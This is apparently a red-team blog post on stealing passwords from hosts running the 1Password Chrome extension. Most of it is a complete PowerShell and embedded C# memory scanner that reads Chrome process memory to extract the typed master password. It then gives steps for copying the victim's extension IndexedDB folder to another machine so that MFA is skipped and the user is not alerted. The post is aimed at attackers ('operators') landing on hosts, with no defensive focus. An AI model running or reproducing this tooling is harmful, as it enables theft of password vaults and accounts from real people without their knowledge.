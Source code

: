 # **1Password Chrome Extension Post-Ex**


### tl;dr

If an operator lands on a host with the 1Password Chrome Extension it is relatively easy to obtain the plaintext passwords stored in the vault. Using the local indexedDB you can "avoid MFA" (it is by design) on 1Password's Chrome Extension. None of this will be new or groundbreaking, I think it is just an area operators might not be looking. 

### Introduction

Red Teaming boiled down is always: get access -> pivot -> get more access until you get where you need to -> plunder. With everything moving to the magical cloud; browsers, and by proxy browser extensions can become single points of failure. So I wanted to think of ways to make life of post-execution easier in obtaining passwords now that well known methods like cookies/lsass are significantly harder to obtain.

With the [rise in use in password managers](https://www.forbes.com/sites/tonybradley/2024/10/24/password-managers-the-essential-defense-against-todays-cyber-threats/) and the secrets they contained I felt that this would be a good start. I chose 1Password because I am a customer but also have to assume almost all password manager extensions suffer from similar "flaws" as there has to be a way to obtain passwords locally/offline. For example, local KeePass DB's use [DPAPI in memory](https://keepass.info/help/base/security.html) once the safe is unlocked. 

### Obtaining Master Password

Obtaining the Master Password is the most difficult step of this attack chain. You could [install a chrome extension](https://syntax-err0r.github.io/Silently_Install_Chrome_Extension.html) or keylog the host or prompt the user, etc.

For this blog we will be scraping Chrome's memory for a string that often aligns with the MasterPassword once it is entered (again--[not new](https://www.cyberark.com/resources/threat-research-blog/extracting-clear-text-credentials-directly-from-chromium-s-memory) ). In my testing on an up to date Windows 11 and chrome this script/method seems to work more than 80% of the time and is usually preceeded by “p.” but I have seen it elsewhere as well.

![](assets/masterpassword_extract.png)

```
Add-Type -TypeDefinition @"
using System;
using System.Text;
using System.Runtime.InteropServices;

public class MemoryScanner
{
    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern IntPtr OpenProcess(int dwDesiredAccess, bool bInheritHandle, int dwProcessId);

    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern bool ReadProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, int dwSize, out int lpNumberOfBytesRead);

    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern int VirtualQueryEx(IntPtr hProcess, IntPtr lpAddress, out MEMORY_BASIC_INFORMATION lpBuffer, uint dwLength);

    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern bool CloseHandle(IntPtr hObject);

    [StructLayout(LayoutKind.Sequential)]
    public struct MEMORY_BASIC_INFORMATION
    {
        public IntPtr BaseAddress;
        public IntPtr AllocationBase;
        public uint AllocationProtect;
        public IntPtr RegionSize;
        public uint State;
        public uint Protect;
        public uint Type;
    }

    public static string ScanMemory(int processId, string searchString, int extraCharacters)
    {
        const int PROCESS_QUERY_INFORMATION = 0x0400;
        const int PROCESS_VM_READ = 0x0010;
        IntPtr processHandle = OpenProcess(PROCESS_QUERY_INFORMATION | PROCESS_VM_READ, false, processId);

        if (processHandle == IntPtr.Zero)
        {
            return "Failed to open process.";
        }

        IntPtr address = IntPtr.Zero;
        MEMORY_BASIC_INFORMATION mbi;
        byte[] searchBytes = Encoding.Unicode.GetBytes(searchString);

        while (VirtualQueryEx(processHandle, address, out mbi, (uint)Marshal.SizeOf(typeof(MEMORY_BASIC_INFORMATION))) != 0)
        {
            if (mbi.State == 0x1000 && (mbi.Protect & 0x04) != 0) // MEM_COMMIT & readable pages
            {
                byte[] buffer = new byte[(int)mbi.RegionSize];
                int bytesRead;
                if (ReadProcessMemory(processHandle, mbi.BaseAddress, buffer, buffer.Length, out bytesRead) && bytesRead > 0)
                {
                    for (int i = 0; i <= buffer.Length - searchBytes.Length; i++)
                    {
                        bool match = true;
                        for (int j = 0; j < searchBytes.Length; j++)
                        {
                            if (buffer[i + j] != searchBytes[j])
                            {
                                match = false;
                                break;
                            }
                        }
                        if (match)
                        {
                            int totalBytesToExtract = searchBytes.Length + (extraCharacters * 2); // Unicode is 2 bytes per char
                            if (i + totalBytesToExtract > buffer.Length)
                            {
                                totalBytesToExtract = buffer.Length - i; // Ensure we don't go out of bounds
                            }

                            string extractedText = Encoding.Unicode.GetString(buffer, i, totalBytesToExtract);
                            CloseHandle(processHandle);
                            return extractedText;
                        }
                    }
                }
            }
            address = new IntPtr(mbi.BaseAddress.ToInt64() + mbi.RegionSize.ToInt64());
        }

        CloseHandle(processHandle);
        return "String not found.";
    }
}
"@ -Language CSharp

function Search-ProcessMemory {
    param (
        [int]$TargetPID,  # Using a non-reserved variable name
        [string]$SearchString,
        [int]$ExtraCharacters = 20  # Number of extra characters to extract after the match
    )

    $process = Get-Process -Id $TargetPID -ErrorAction SilentlyContinue
    if ($process) {
        Write-Host "Scanning memory of process: $($process.ProcessName) (PID: $($process.Id))"
        $result = [MemoryScanner]::ScanMemory($process.Id, $SearchString, $ExtraCharacters)
        Write-Host $result
    } else {
        Write-Host "Process with PID $TargetPID not found."
    }
}

$chromeProcesses = Get-Process chrome -ErrorAction SilentlyContinue
$SearchString = "Enter your password"

foreach ($proc in $chromeProcesses) {
Search-ProcessMemory -TargetPID $proc.id -SearchString $SearchString -ExtraCharacters 500 }

```

### The Curious Case Of MFA

While perusing 1Passwords [support documents](https://blog.1password.com/should-protect-1password-with-2fa/) on MFA I noticed the line "When turned on, a second factor will be required to add your account on a new device, in addition to your 1Password account password and Secret Key.”. The word “new” was interesting to me. I knew from reversing the extension there was an associated device identifier but what if we can mimic/copy that id? I am sure there is some complicated checks/hashes/etc. that go into it but what I realized was if we copy over the local extension files the chrome extension saw the same device identifier, which means no MFA prompt or alerting to the user. 

Steps to reproduce:

- Install Chrome in fresh VM
- Install the 1Password Extension for Chrome
- Copy over ‘%localappdata%\Google\Chrome\User Data\Default\IndexedDB\chrome-extension_aeblfdkhhhdcdjpifhhbdiojplfjncoa_0.indexeddb.leveldb’ and everything underneath to the VM from the victim's machine 
- Enter in the MasterPassword


### Conclusions

If you are an operator and land on a machine it is worth your while to check to see if '%localappdata%\Google\Chrome\User Data\Default\Extensions\aeblfdkhhhdcdjpifhhbdiojplfjncoa' exists. I also want to be clear--this is not a knock on 1Password as I believe in the product (although it would be nice to add a feature to require MFA at every login). Again, none of this is new or novel or ultimately a vulnerability, we are just abusing legitimate features of software but the payout for an operator could be big. 

### Future Work

I think that once the local DB is decrypted on the victim machine there might be a way to obtain these from the IndexedDB despite the file lock without knowing the MasterPassword
